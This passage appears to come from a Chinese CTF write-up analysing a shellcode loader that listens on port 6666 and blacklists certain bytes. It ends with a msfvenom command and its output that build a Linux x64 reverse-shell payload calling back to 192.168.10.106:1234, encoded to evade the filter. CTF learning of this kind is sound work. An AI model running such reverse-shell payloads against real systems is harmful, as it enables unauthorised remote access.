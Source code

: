 >
> ------
>
> ### 📢 4. **输出与日志**
>
> - 服务启动时输出监听端口（`std::cout << "Listening on 6666"`）。
> - 每次客户端连接后打印换行符（`std::cout << std::endl`），可能用于日志分隔。
> - Shellcode执行成功时输出空行（`std::cout << std::endl`）。
>
> ------
>
> ### ⚠️ 安全风险提示
>
> 1. **高危行为**：直接执行网络传入的代码（Shellcode）是极度危险的，可能被用于远程代码执行（RCE）攻击。
> 2. **过滤机制局限**：仅通过字符黑名单（`forbidden_bytes`）防护，易被绕过（如编码混淆或未覆盖的指令）。
> 3. **未验证来源**：无客户端IP或身份认证，开放端口可能被恶意利用。
>
> ------
>
> ### 📌 功能总结
>
> | **阶段**   | **操作**                          | **关键函数/指令**           |
> | ---------- | --------------------------------- | --------------------------- |
> | 初始化     | 信号处理、Socket绑定端口6666      | `ssignal`, `socket`, `bind` |
> | 客户端连接 | 接受连接、I/O重定向               | `accept`, `dup2`, `close`   |
> | 数据处理   | 读取数据并过滤危险字符            | `read`, 字符遍历检查        |
> | 动态执行   | 映射内存并执行Shellcode           | `mmap`, `memcpy`, `v16()`   |
> | 结果反馈   | 成功执行输出空行/失败返回错误信息 | `std::cout`, `write`        |
>
> > 💡 该程序本质是一个**简易的Shellcode加载器**，适用于渗透测试或CTF场景，但实际部署需严格评估风险。若需进一步分析过滤规则（`forbidden_bytes`）或优化安全设计，建议结合动态调试工具（如GDB）验证行为。

至于代码中禁止部分字符，可以知道：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506101849648.png" alt="image-20250610101717509" style="zoom:50%;" />

> ### ⚠️ 禁止字符列表（十六进制值及含义）
>
> | 十六进制值 |    ASCII 字符     |                          含义/原因                           |
> | :--------: | :---------------: | :----------------------------------------------------------: |
> |   `0x00`   |   `\x00` (NULL)   | **空字节**：字符串终止符，可能导致数据截断或函数提前终止（如 `strcpy`）。 |
> |   `0x20`   |       空格        | **空格符**：在特定输入过滤场景可能被限制，但此处需结合上下文确认。 |
> |   `0x0F`   |   SI (Shift In)   |       **控制字符**：不可见字符，可能干扰数据处理流程。       |
> |   `0xCD`   |        `Í`        |  **扩展 ASCII 字符**：在特定编码环境可能被解析为异常值**。   |
> |   `0x09`   | `\t` (水平制表符) |       **空白符**：可能被解析为分隔符，影响数据完整性。       |
> |   `0x22`   |   `"` (双引号)    | **特殊符号**：在命令行或字符串处理中可能引发语法错误或注入风险。 |
> |   `0x0A`   |   `\n` (换行符)   | **换行符**：常见输入终止符，可能导致读取操作提前结束（如 `read` 函数）。 |

### 生成shellcode

```bash
┌──(kali㉿kali)-[~/temp/easypwn]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.106 LPORT=1234 -b '\x00\x20\x0f\xcd\x09\x22\x0a' -f raw > payload
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
```
